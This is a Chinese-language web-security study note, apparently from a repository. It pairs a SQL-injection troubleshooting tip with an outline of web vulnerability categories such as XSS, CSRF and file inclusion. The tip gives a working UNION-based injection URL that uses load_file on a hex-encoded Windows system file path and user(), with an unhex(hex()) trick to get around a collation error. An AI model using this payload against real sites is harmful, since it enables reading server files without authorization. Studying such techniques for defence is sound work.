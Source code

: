 ``` sql

Illegal mix of collations (latin1_swedish_ci,IMPLICIT) and (utf8_general_ci,IMPLICIT) for operation 'UNION'

如：/instrument.php?ID=13 and 1=2 union select 1,load_file(0x433A5C626F6F742E696E69),3,4,user()

这是由于前后编码不一致造成的，

解决方法：在参数前加上 unhex(hex(参数))就可以了。上面的URL就可以改为：
/instrument.php?ID=13 and 1=2 union select 1,unhex(hex(load_file(0x433A5C626F6F742E696E69))),3,4,unhex(hex(user()))
```
=======
# Web 安全

## What Web

> World Wide Web 万维网，互联网应用

## Web1.0

- SQL 注入
- 文件包含
- 上传漏洞
- 挂马/暗面
- 命令执行

## Web2.0

- 钓鱼
- 框架漏洞
- 逻辑漏洞
- 数据劫持
- URL跳转
- CSRF
- XSS

## Web 安全问题

- 数量迅速增长
- 种类迅速增多
- 针对 Web 用户

招聘：Web安全工程师

## Web流程

- 客户端/前段
  - 钓鱼、暗链
  - XSS,点击劫持
  - CSRF,URL跳转
